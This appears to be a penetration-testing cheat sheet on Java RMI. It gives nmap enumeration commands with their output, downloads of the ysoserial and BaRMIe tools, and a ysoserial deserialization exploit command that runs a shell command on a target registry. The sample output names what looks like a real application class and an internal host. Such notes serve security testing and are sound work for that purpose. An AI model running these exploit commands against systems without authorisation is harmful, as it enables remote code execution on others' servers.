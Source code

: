 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# Java RMI
https://attack.mitre.org/techniques/T1203/
Default port: `1099`

## Tools
- Java RMI enumeration and attack tool - ([BaRMIe GitHub](https://github.com/NickstaDB/BaRMIe))

References:
- ([Cheat Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet))

## nmap example
~~~
$ nmap --script rmi-vuln-classloader -sV --version-all -p 1099 10.0.0.2

PORT     STATE SERVICE  VERSION
1099/tcp open  java-rmi Java RMI
| rmi-vuln-classloader: 
|   VULNERABLE:
|   RMI registry default configuration remote code execution vulnerability
|     State: VULNERABLE
|       Default configuration of RMI registry allows loading classes from remote URLs which can lead to remote code execution.
|       
|     References:
|_      https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/misc/java_rmi_server.rb


$ nmap --script rmi-dumpregistry -sV --version-all -p 1099 10.0.0.2

PORT     STATE SERVICE  VERSION
1099/tcp open  java-rmi Java RMI
| rmi-dumpregistry:
|   com.transplace.app.tms.common.DesktopClientSuiteRmiService
|      implements com.transplace.app.tms.common.DesktopClientSuiteRmiService,
|     extends
|       java.lang.reflect.Proxy
|       fields
|           Ljava/lang/reflect/InvocationHandler; h
|             java.rmi.server.RemoteObjectInvocationHandler
|             @10.35.7.157:1099
|             extends
|_              java.rmi.server.RemoteObject
~~~

## ysoserial example
~~~
# download ysoserial
$ wget https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar

$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit 10.0.0.2 1099 CommonsCollections6 "touch /tmp/pwned"
~~~

## BaRMIe example
~~~
# identify RMI port with nmap
$ nmap --script rmi-dumpregistry.nse -sV --version-all -p 1099 10.0.0.2
...
PORT     STATE SERVICE  VERSION
1099/tcp open  java-rmi Java RMI
...

# download BaRMIe
$ wget https://github.com/NickstaDB/BaRMIe/releases/download/v1.01/BaRMIe_v1.01.jar

# run BaRMIe
$ java -jar BaRMIe_v1.01.jar -enum 10.0.0.2 1099
...
Scanning 1 target(s) for objects exposed via an RMI registry...

[-] An exception occurred during the PassThroughProxyThread main loop.
        java.net.SocketException: Socket closed
[-] An exception occurred during the ReplyDataCapturingProxyThread main loop.
        java.net.SocketException: Socket closed
RMI Registry at 10.0.0.2:1099
Objects exposed: 1
Object 1
  Name: com.transplace.app.tms.common.DesktopClientSuiteRmiService
  Endpoint: 10.0.0.2:1099
  Classes: 2
    Class 1
      Classname: java.lang.reflect.Proxy
    Class 2
      Classname: com.transplace.app.tms.common.DesktopClientSuiteRmiService

1 potential attacks identified (+++ = more reliable)
[---] Java RMI registry illegal bind deserialization

0 deserialization gadgets found on leaked CLASSPATH
[~] Gadgets may still be present despite CLASSPATH not being leaked

Successfully scanned 1 target(s) for objects exposed via RMI.
~~~
